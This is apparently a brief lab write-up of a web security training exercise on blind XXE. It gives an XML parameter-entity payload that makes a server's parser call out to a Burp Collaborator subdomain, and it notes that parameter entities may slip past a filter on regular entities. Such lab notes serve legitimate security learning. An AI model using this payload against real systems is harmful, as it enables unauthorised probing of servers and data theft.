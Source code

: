 Title: Blind XXE with out-of-band interaction via XML parameter entities
Level: Practitioner 
Desc:  This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.
To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator. 


Below you can find XML Parameter Entity
```
<!DOCTYPE stockCheck [
 <!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN">
 %xxe; ]>
```

Message about entities which are not allowed: 
![image](https://github.com/user-attachments/assets/881773c0-6903-4c60-b6a5-2fef15ece44e)
It could say, that regular entities are not allowed, but maybe parameter entities are.
